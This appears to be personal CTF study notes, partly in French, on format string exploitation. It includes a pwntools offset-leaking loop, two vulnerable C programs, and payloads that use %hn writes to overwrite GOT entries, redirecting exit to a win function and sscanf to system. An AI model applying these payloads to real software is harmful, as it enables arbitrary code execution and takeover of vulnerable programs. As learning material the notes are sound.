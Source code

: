 
%n in printf : ("abc%n", &i) : 3 dans la valeur i car abc = 3 characters
use to detect canary

("%200x%n", i) => i = 200
("%150$x") argument 150 
("%x%x(=c)%x2$x(=c)", 1, C,3)

```python
for i in range(8):  
    s = process('./format')  
    payload = f'AAAABBBB%{i}$x'.encode()  
    # payload = f'%{i}$p'.encode()  
    s.sendline(payload)  
    res = s.recvline(timeout=3)  
    print(f"{i}: {res}")  
    sleep(1)
    
```
## Example 1

```c
  
void win() {  
    char buf[0x1000];  
  
    int fd = open("flag", O_RDONLY);  
    int sz = read(fd, buf, 0x1000);  
  
    write(1, buf, sz);  
    fflush(NULL);  
}  
  
static void handle_client() {  
    char buffer[512];  
    int sz;  
  
    sz = read(1, buffer, sizeof(buffer));  
    buffer[sz] = 0;  
  
    PRINTF(buffer);  
  
    exit(1);  
}
```

```python
buf = p32(0x0804C024) # 0804C024 addr of exit  
buf += b'%.37810x%7$hn' # 37814 080493B6 // .addr in dec of win then %hn
```


%7 => trouvé l'offset où on peut ecrire
```buf = b'AAAABBBB%7$x'```
![[Pasted image 20231118211443.png]]

0x0804 93B6 = addr of win function in .text
93B6 => 37814 in dec (-4 car addr de retours p32(@exit) = 4)
%hn =>write a short (2 bytes) at the address.
On ecrit que la moitier car la fonction win n'a jamais été apl et donc son addresse n'est pas dans la GOT

## Example 2

```c
  
static Action get_action(void)  
{  
    char choice[15];  
    Action action;  
  
    while (1)  
    {  
        PRINTF("Action: ");  
        fgets(choice, sizeof(choice), stdin);  
        if (sscanf(choice, "%u", &action))  
            return action;  
    }  
}  
  
  
static int menu(char *user)  
{  
  system("/usr/bin/clear");  
  PRINTF("Welcome to my app");  
  
  if (!strlen(user))  
  {  
    PRINTF("\n\nUser name : ");  
    fgets(user, 49, stdin);  
    remove_newline(user);  
    return 1;  
  }  
  else  
  {  
    PRINTF("Hello '");  
    PRINTF(user);  
    PRINTF("', what would you like to do ?\n");  
    PRINTF(" %u. Process authentification\n", Authenticate);  
    PRINTF(" %u. Exit this cool program\n", Exit);  
    switch (get_action())  
    {  
      case Authenticate:  
        authenticate();  
        return 1;  
      case Exit:  
        return 0;  
    }  
  
  }  
}
```

```python
buf = b'AA' # padding bytes
buf += p32(0x0804C040 + 2)  # 0804C040 addr of sscanf + 2 because we want to write to the second part of addr of sscanf  
buf += p32(0x0804C040)  # 0804C040 addr of sscanf  
buf += b'%.2042x%16$hn' # addr of system :  0804 = 2052 - 4 -4 -2  
buf += b'%.47144x%17$hn' # C02C = 49196 - 2042- 4 -4 -2

target.sendline(buf)  
  
# Get action  
buf = b'cat flag'  
target.sendline(buf)
```

On prend exemple ici que l'addresse à déjà été résolu dans la GOT, on doit donc réécrire les l'addresse en entier
